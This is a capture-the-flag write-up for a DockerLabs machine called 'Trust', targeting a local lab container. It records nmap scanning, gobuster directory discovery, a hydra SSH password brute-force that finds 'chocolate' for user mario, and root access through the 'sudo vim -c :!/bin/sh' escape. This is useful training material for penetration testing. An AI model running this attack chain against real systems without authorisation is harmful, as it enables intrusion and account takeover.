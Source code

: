 #Trust DockerLabs - 13/05/2024

#web - https://dockerlabs.es/#/

We start by performing a basic scan with nmap.

```shell
└─$ nmap -sV -sC -n -p- --min-rate 5000 172.17.0.2                                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 22:22 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds

```

Here we find a port 22 and a port 80, I enter the web address ‘http://172.17.0.2/’ and I can see that it is an apache page:

![Captura de pantalla 2024-05-13 224854](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/44dee495-8746-4af4-94f8-e41c76ea6cf1)

We search for subdomains with gobuster: 

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              bak,php.bak,php,txt,py
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 813927 / 1323366 (61.50%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 818325 / 1323366 (61.84%)
===============================================================
Finished
===============================================================
                                                                 
```

We found a .php file called ‘secret.php’. I access this file and I see a page where it talks about a user ‘mario’:

![Captura de pantalla 2024-05-13 225146](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/5b429c97-e09e-4c60-b278-b66b21533728)

We do a brute force attack with hydra on the ssh server with the user mario:

```shell
└─$ hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-13 22:36:08
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-13 22:36:26           
```

It finds us a password for the user mario, we try it and we see that it lets us in:

```shell
└─$ ssh mario@172.17.0.2               
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:z6uc1wEgwh6GGiDrEIM8ABQT1LGC4CfYAYnV4GXRUVE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
mario@172.17.0.2's password: 
Linux eb21e3cbaf4b 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 20 09:54:46 2024 from 192.168.0.21

```

```shell
mario@eb21e3cbaf4b:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on eb21e3cbaf4b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on eb21e3cbaf4b:
    (ALL) /usr/bin/vim

```

We see that we can run root without a password so we proceed to privilege escalation.
We enter ‘https://gtfobins.github.io/#’ a website dedicated to the exploitation of these bins among other things:
Search for ‘vim’ and enter ‘sudo’:

![Captura de pantalla 2024-05-13 225938](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/9064fe61-5dda-4bf0-b772-66125e1afe4e)

![Captura de pantalla 2024-05-13 225938](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/9064fe61-5dda-4bf0-b772-66125e1afe4e)

We execute the command and we see that we are now root:

```shell
mario@eb21e3cbaf4b:~$ sudo vim -c ':!/bin/sh'

```

```shell
# whoami
root

```
